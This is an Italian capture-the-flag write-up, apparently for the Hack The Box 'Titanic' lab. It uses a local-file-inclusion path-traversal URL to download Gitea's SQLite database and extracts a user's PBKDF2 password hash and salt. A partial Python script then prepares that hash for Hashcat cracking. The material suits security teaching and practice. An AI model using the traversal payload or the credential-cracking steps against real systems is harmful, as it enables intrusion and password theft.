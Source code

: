 Il mapping del volume `/home/developer/gitea/data:/data` suggerisce una directory contenente file di configurazione sensibili di Gitea. Ricercando su Gitea, scopriamo che memorizza i dati degli utenti in un file di database SQLite chiamato `gitea.db`.

## 📂 Sfruttamento LFI
Usando la vulnerabilità LFI identificata in precedenza, tentiamo di recuperare `gitea.db` dal percorso rivelato nella configurazione Docker:

```
http://titanic.htb/download?ticket=../../../../../home/developer/gitea/data/gitea/gitea.db
```

Questo scarica con successo il file del database, fornendo accesso ai dati interni di Gitea.

## 🗄️ Analisi Database Gitea
Esaminando `gitea.db`, estraiamo i dettagli dell'utente, concentrandoci sull'account `developer`:

```
2,"developer","developer","","developer@titanic.htb","0","enabled","e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56","pbkdf2$50000$50","0","0","0","","0","","","0ce6f07fc9b557bc070fa7bef76a0d15","8bf3e3452b78544f8bee9400d6936d34","en-US","","1722595646","1746682900","1746682900","0","-1","1","0","0","0","0","1","0","e2d95b7e207e432f62f3508be406c11b","developer@titanic.htb","0","0","0","0","2","0","0","0","0","","gitea-auto","0"
```

Informazioni chiave:
- **Username**: `developer`
- **Hash**: `e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56`
- **Salt**: `8bf3e3452b78544f8bee9400d6936d34`
- **Algoritmo**: PBKDF2-HMAC-SHA256
- **Iterazioni**: 50000

## 🔓 Cracking dell'Hash
Per crackare l'hash, lo convertiamo in un formato compatibile con Hashcat usando uno script Python:

```python
import base64

hash_hex = "e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56"
salt_hex = "8bf3e3452b78544f8bee9400d6936d34"
iterations = 50000
hash_algo = "sha256"  

def hex_to_base64(hex_string):
    try:
        bytes_data = bytes.fromhex(hex_string)
        base64_data = base64.b64encode(bytes_data).decode("utf-8")
        return base64_data
    except ValueError as e:
        return f"Errore nella conversione: {e}"


salt_base64 = hex_to_base64(salt_hex)
if "Errore" in salt_base64:
    print(salt_base64)
    exit(1)

hash_base64 = hex_to_base64(hash_hex)
if "Errore" in hash_base64:
    print(hash_base64)
    exit(1)


```
